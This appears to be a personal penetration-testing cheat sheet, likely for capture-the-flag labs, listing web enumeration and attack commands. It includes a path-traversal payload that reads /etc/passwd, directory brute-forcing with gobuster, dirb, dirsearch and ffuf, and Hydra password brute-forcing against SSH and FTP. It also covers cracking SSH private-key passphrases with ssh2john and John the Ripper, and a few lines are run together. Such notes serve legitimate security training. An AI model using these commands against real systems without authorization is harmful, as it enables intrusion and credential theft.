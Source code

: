 # Web

## Source
View source files

## Robots
Open robots.txt

## LFI
Try to open  ../../../../../etc/passwd
http://target/item?id=../../../../../etc/passwd

## Common extensions
- html
- phtml
- txt
- asp
- aspx
- js

## Common start pages
- index
- default
- home

## Web path discovery


### Gobuster
```
gobuster dir -u http://$target -w /usr/share/dirb/wordlists/common.txt -t 100 -o $target_name.dir.txt
gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.html -t 100 -o $target_name.file.txt

```


### dirb
```
dirb $target
```

###  dirsearch

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip3 install -r requirements.txt
python3 dirsearch.py -u <URL> -e <EXTENSIONS>

Usage: dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]

python3 dirsearch.py -u $target -e php,html,txt port80

python3 dirsearch.py -e php,html,js -u https://target

python3 dirsearch.py -e php,html,txt,js -u https://target -w /path/to/wordlist



```

## dirsearch recursive
python3 dirsearch.py -e php,html,js -u https://target -r


## ffuf
ffuf -c -w letters -u http://10.10.21.10 -H "User-Agent: FUZZ"




enum4linux $ip


## Hydra


hydra -l <username> -P /usr/share/wordlists

hydra -l <username> -P locks.txt 10.10.130.81 ssh

hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>

hydra -f -I -vV -t 64 -l lin -P ./locks.txt $TARGET ssh

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.133.186



## rockyou
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gzwc -l /usr/share/wordlists/rockyou.txt
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```
# Create some private key
ssh-keygen -t rsa -b 4096# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash



python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash


Cracking everything with John the Ripper
https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c



